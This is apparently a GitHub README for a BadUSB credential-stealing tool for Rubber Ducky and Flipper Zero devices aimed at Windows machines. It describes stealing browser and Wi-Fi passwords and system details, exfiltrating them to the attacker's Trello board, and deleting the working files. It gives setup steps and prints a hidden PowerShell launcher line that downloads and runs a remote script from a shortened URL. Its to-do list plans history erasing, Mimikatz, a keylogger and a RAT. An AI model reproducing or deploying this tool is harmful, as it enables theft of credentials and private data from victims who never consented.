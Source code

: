 # W1ns1d3r_Tr3ll0 BadUSB

## Description

This project is a BadUSB mix of some rubber ducky scripts.

- **Version:** [1.1]
- **Average Time :** 
  - W1ns1d3r_f4st_Tr3ll0 : 3 Secs
  - W1ns1d3r_st4gg3d_Tr3ll0 : 30 secs
- **Target:** Windows 10/11 (7/8 not tested)
- **Supported Layout keyboard:** US/FR/DE
- **Author:** [b1g_ph4rm4](https://github.com/Gvte-Kali/BadStuffHosting)

```
______________________________________________________________________________________________

 888      d888                             888          d8888                            d8888  
 888     d8888                             888         d8P888                           d8P888  
 888       888                             888        d8P 888                          d8P 888  
 88888b.   888   .d88b.           88888b.  88888b.   d8P  888  888d888 88888b.d88b.   d8P  888  
 888 "88b  888  d88P"88b          888 "88b 888 "88b d88   888  888P"   888 "888 "88b d88   888  
 888  888  888  888  888          888  888 888  888 8888888888 888     888  888  888 8888888888 
 888 d88P  888  Y88b 888          888 d88P 888  888       888  888     888  888  888       888  
 88888P" 8888888 "Y88888 88888888 88888P"  888  888       888  888     888  888  888       888  
                     888          888                                                           
                Y8b d88P          888
                 "Y88P"           888                                                           
______________________________________________________________________________________________
```

- **Credits:**
  - [![blobs0](https://img.shields.io/badge/blobs0-Ultimate%20Flipper%20Grabber-brightgreen)](https://github.com/blobs0/Ultimate-Flipper-Grabber)
  - [![I-am-jakoby](https://img.shields.io/badge/I--am--jakoby-Discord%20Webhooks%20Functions-blue)](https://github.com/I-am-jakoby)
  - [![UNCOV3R3D](https://img.shields.io/badge/UNCOV3R3D-Statut-orange)](https://github.com/UNC0V3R3D)
  - 7h30th3r0n3
  - moosehadley

## Features 

**W1ns1d3r_st4gg3d_Tr3ll0:** 
- The informations the script pulls :
    - Stage 1 :
        - Web browser passwords
    - Stage 2 :
        - Antivirus software and version
        - User informations
        - System informations
        - Wifi passwords
- Post everything on your Trello webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
**W1ns1d3r_f4st_Tr3ll0** 
- Don't get the administrative privileges on target.
- Sets the working directory to C:\temp.
- The informations the script pulls :
    - Stage 2 :
        - Antivirus software and version
        - Hardware informations
        - System informations
        - Wifi passwords
- Post everything on your Trello webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
## How to use
- To get the Trello API working with your scripts, you'll need to get some configuration before using it : 
  - **The ID of the list you want to post into --> Step 1.6**
  - **An API Key --> Step 1.4.3**
  - **A Token --> Step 1.4.5**

- **Setup Guide :**
  - **1 - Creating account and setup informations**
    - 1.1 - Create an account on this link : https://id.atlassian.com/login?application=trello

    - 1.2 - Go to your boards, this url should look like this : https://trello.com/u/yourusername/boards

    - 1.3 - Create a board

    - 1.4 - Go on https://trello.com/power-ups/admin and create a new power-up.
      - 1.4.1 - On creation, the only useful thing is to locate it into the worksapce where your board was created ( should only be one workspace if it's a new account ).
      - 1.4.2 - Go to your newly created Power-UP. Now go to API Key and click the "generate API Key".
      - 1.4.3 - **!! VERY IMPORTANT !!** You need to note somewhere the API Key. 
      - 1.4.4 - **!! VERY IMPORTANT !!**  On the API Key page, click on the token button, and authorize Trello to use your account.
      - 1.4.5 - **!! VERY IMPORTANT !!** You need to note the token, should look like *ATTAxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx*.
      - 1.4.6 - Go to your Power-UP *Capabilities* menu and make sure that it gets every authorization.

    - 1.5 - Go on the board you created, the url should look like this : "https://trello.com/b/xxxxxxx/name_of_your_board"

    - 1.6 - Use the idlist script : 
      - 1.6.1 - For linux users, go for the idlist.sh
      - 1.6.2 - For windows users, go for the idlist.ps1

  - **2 - Once you have the idlist, the API key and the token, you need to modify the "launcher" [.txt] file**
    - 2.1 - You need to go to the script and look for a line like this : ```"STRING powershell -w h -NoP -Ep Bypass $idList='';$key='';$token='';irm https://shorturl.at/gpvF5 | iex"```
    - 2.2 - Then, you need to add those informations : 
      - 2.2.1 - ```$idList=''``` your id list, that you've got from the *idlist script* **Step 1.6**
      - 2.2.2 - ```$key=''``` your API Key **Step 1.4.3**
      - 2.2.3 - ```$token=''``` your Token **Step 1.4.5**

    - **3 - Put the modified [.txt] file into your Rubber Ducky or Flipper Zero**

    - **4 - Enjoy !**

# Releases

- **Version [1.0]** - *10/02/2024*
- **Version [1.1]** - *12/02/2024*


# To do : 

- Add a folder with each function and explain how they work.
- Create a version that supports admin rights and add : 
  - Add the trash folder erasing
  - Add the powershell history erasing
  - Add Mimikatz password recovery
  - Add keylogger
  - Add a RAT ( Remote Access Toolkit ) installation and configuration

